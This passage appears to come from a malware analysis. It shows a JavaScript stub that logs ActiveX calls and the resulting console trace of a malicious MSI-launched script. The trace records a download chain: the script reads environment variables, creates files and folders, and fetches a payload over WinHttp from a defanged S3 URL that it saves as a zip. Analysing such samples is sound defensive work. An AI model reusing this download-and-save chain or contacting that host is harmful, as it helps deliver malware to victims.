 ```javascript
        return new File(filename, overwrite);
    } 
    NameSpace(env) {
        console.log(this.type + " NameSpace: [" + env + "]");
    } 
    DeleteFile(env) {
        console.log(this.type + " DeleteFile: " + env);
    }  
    SaveToFile(env) {
        console.log(this.type + " SaveToFile: " + env);
    } 
    MoveFile(source, dest) {
        console.log(this.type + " MoveFile: " + source + " to " + dest);
    } 
    Close() {
        console.log(this.type + " Close: " );
    }   

    //ActiveXObject WinHttpRequest
    Open(method, url, flag) {
        console.log(this.type + " Open: " + method + " " + url);
        return 0
    } 
    Send() {
        console.log(this.type + " Send: ");
    } 
    SetTimeouts(env) {
        console.log(this.type + " SetTimeouts: " + env);
    }   

    Write(env) {
        console.log(this.type + " Write: " + env);
    }
    Extract(env) {
        console.log(this.type + " Extract: " + env);
    }         
```
This patch prints all the ActiveX interactions, allowing us to capture what this script would do if exectued by the MSI. You can find the patched script at `patched_js.html`.

This is the output of the JavaScript console:

```
Start
Initiated ActiveXObject type wscript.shell
wscript.shell ExpandEnvironmentStrings: %username%
wscript.shell ExpandEnvironmentStrings: %SystemDrive%
Initiated ActiveXObject type Scripting.FileSystemObject
wscript.shell ExpandEnvironmentStrings: %Public%
wscript.shell ExpandEnvironmentStrings: %comspec%
Scripting.FileSystemObject FileExists: _Public_\_username_
Scripting.FileSystemObject CreateTextFile: _Public_\_username_
Initiated File
File: _Public_\_username_ WriteLine: NULL
File: _Public_\_username_ Close 
Scripting.FileSystemObject CreateFolder: _SystemDrive_\_username_Iq8Ft®
Initiated ActiveXObject type WinHttp.WinHttpRequest.5.1
WinHttp.WinHttpRequest.5.1 SetTimeouts: 30000
WinHttp.WinHttpRequest.5.1 Open: GET https://landvoque.s3.eu-west-1.amazonaws[.]com/vailand.txt
WinHttp.WinHttpRequest.5.1 Send: 
Initiated ActiveXObject type ADODB.Stream
ADODB.Stream Open: undefined undefined
ADODB.Stream Write: undefined
ADODB.Stream SaveToFile: _SystemDrive_\_username_Iq8Ft®\_username_Iq8Ft®.zip
```